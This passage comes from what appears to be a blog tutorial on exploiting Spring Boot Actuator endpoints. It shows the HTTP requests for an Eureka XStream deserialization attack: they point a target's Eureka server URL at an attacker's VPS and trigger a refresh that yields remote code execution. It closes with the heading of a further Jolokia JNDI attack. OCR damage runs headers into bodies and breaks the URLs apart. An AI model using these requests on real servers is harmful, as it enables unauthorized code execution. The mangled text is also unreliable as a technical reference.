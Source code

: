 [](https://www.blogger.com/#)**Step 3:** Set the eureka.client.serviceUrl.defaultZone property

**spring 1.x**

```
POST /envContent-Type: application/x-www-form-urlencodedeureka .client .serviceUrl .defaultZone =http: //your-vps-ip/example
```

**spring 2.x\
**

```
POST /actuator/ envContent-Type: application/json{ "name" : "eureka.client.serviceUrl.defaultZone" , "value" : " http :// your - vps - ip / example " }
```

[](https://www.blogger.com/#)**Step 4:** Refresh the configuration

**spring 1.x\
**

```
POST /refreshContent - Type : application/x- www- form - urlencoded
```

**spring 2.x**

```
POST /actuator/ refreshContent-Type: application/json
```

#### Vulnerability Principle:

- The eureka.client.serviceUrl.defaultZone property is set to the malicious external eureka server URL address

- refresh triggers the target machine to request a remote URL, and the fake eureka server set up in advance will return a malicious payload

- The target machine is dependent on parsing the payload, triggering XStream deserialization, resulting in RCE vulnerability

[](https://www.blogger.com/#)Vulnerability Analysis:[Spring Boot Actuator unauthorized access getshell](<https://blog.spacepatroldelta.com/a?ID=01700-3336c2ff-7e5a-46b0-ad01-aa935faff8fa>)

[](https://www.blogger.com/#)Vulnerable environment:

[repository/springboot-eureka-xstream-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce)

Normal access:

```
http://127.0.0.1:9093/env _
```

[](https://www.blogger.com/#)

### Jolokia Logback JNDI RCE
